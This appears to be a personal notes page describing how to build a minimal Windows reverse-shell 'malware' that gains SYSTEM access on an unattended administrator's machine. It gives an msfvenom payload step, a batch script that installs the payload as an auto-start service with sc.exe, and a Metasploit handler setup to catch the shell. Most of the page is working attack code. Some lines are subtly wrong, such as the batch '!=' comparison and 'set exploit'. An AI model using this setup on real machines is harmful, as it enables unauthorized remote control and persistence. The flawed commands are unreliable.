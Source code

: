 # Reverse shell

In this section, I aim to experiment and provide a simple example of a "malware" that can be executed as an **Administrator** account on a target's Windows machine. For simplicity, I assume the weakest security scenario:

a. User is in the **Administrators** group on the machine

b. User left the machine unattended while being logged in

c. There is no anti-virus solutions (besides Windows defender) running on the machine

&#x20;The "malware" will simply provide a remote shell as the **SYSTEM** user.

> Note: the setup and techniques used in this example is EXTREMELY minimal, and OPSEC is not taken into account.

### Setup

The following outlines the root directory of the "malware" folder&#x20;

1. `rvshell.exe`

* Generated with msfvenom: meterpreter or reverse shell

2. `shell.cmd`

* To be executed as administrators&#x20;
  * GUI: Right-click -> "Run as administrator"

{% code title="shell.cmd" overflow="wrap" %}
```batch
REM Executes a C# script that returns a boolean value that indicates if the current user is in the "Adminstrators" group, before storing the value in the "ISADMIN" env variable
for /f "delims=" %%a in ('powershell.exe -NoProfile -Command "([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)"') do set ISADMIN=%%a

REM Echo the value of the "ISADMIN" env variable
echo ISADMIN=%ISADMIN%

REM User is not an administrator: EXIT
if /i "%ISADMIN%"!="True" (
    echo User is NOT an administrator
    exit
    )

REM User is an administrator: continue next step
set RVSHELL_EXE=%TEMP%\rvshell.exe

REM Copy reverse shell payload to a temp folder
copy /y rvshell.exe %RVSHELL_EXE%

REM Create and start a service with sc.exe

sc.exe create "rvshell" binPath= "%RVSHELL_EXE%" start= auto
sc.exe start "rvshell"

REM EXIT current prompt
exit
```
{% endcode %}

a. `[Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)`&#x20;

* A C# one-liner which output a boolean value that indicates if the current user is in the "**Administrators**" group

#### Catch the shell

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ msfconsole
msf6> set exploit/multi/handler

# set payload accordingly
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set payload windows/x64/powershell_reverse_tcp

msf6> set lhost <lhsot>
msf6> set lport <lport>
msf6> run
```
{% endcode %}

### Resources

1. **Powershell.exe**

{% embed url="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1" %}

2. `set` command

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1" %}



